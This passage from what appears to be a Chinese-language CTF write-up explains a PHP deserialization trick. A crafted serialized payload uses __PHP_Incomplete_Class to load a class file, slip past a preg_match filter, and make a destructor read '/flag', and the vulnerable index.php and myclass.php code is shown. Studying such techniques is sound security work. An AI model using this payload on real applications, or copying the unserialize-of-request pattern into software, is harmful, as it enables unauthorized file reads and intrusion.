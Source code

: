 在这个题目中，我们需要加载`myclass.php`中的`hello`类，但是要引入hello类，根据`__autoload`我们需要一个`classname`为`myclass`的类，这个类并不存在，如果我们直接去反序列化，只会在反序列化myclass类的时候报错无法进入下一步，或者在反序列化Hello的时候找不到这个类而报错。

根据上面的分析，我们可以使用PHP对`__PHP_Incomplete_Class`的特殊处理进行绕过

```
a:2:`{`i:0;O:22:"__PHP_Incomplete_Class":1:`{`s:3:"qwb";O:7:"myclass":0:`{``}``}`i:1;O:5:"Hello":1:`{`s:3:"qwb";s:5:"/flag";`}``}`
```

修改一下`index.php`和`myclass.php`以便更好地看清这一过程

```
&lt;?php
// index.php
ini_set('display_errors', 'on');
include "function.php";
$res = unserialize($_REQUEST['ctfer']);
var_dump($res);
echo '&lt;br&gt;';
var_dump(serialize($res));
if(preg_match('/myclass/i',serialize($res)))`{`
    echo "???";
    throw new Exception("Error: Class 'myclass' not found ");
`}`
highlight_file(__FILE__);
echo "&lt;br&gt;";
highlight_file("myclass.php");
echo "&lt;br&gt;";
highlight_file("function.php");
echo "End";
```

```
&lt;?php
// myclass.php
//class myclass`{``}`
class Hello`{`
    public function __destruct()
    `{`   
        echo "I'm destructed.&lt;br/&gt;";
        var_export($this-&gt;qwb);
        if($this-&gt;qwb) echo file_get_contents($this-&gt;qwb);
    `}`
`}`
?&gt;
```

[![](https://p3.ssl.qhimg.com/t018b9980d9672f8cf2.png)](https://p3.ssl.qhimg.com/t018b9980d9672f8cf2.png)

可以看到在反序列化之后，myclass作为了`__PHP_Incomplete_Class`中属性，会触发autoload引入myclass.php，而对他进行二次序列化时，因为`__PHP_Incomplete_Class`没有`__PHP_Incomplete_Class_Name`该对象会消失，从而绕过`preg_match`的检测，并在最后触发`Hello`类的反序列化。



## 0x02 Fast Destruct——奇怪的反序列化行为出现了
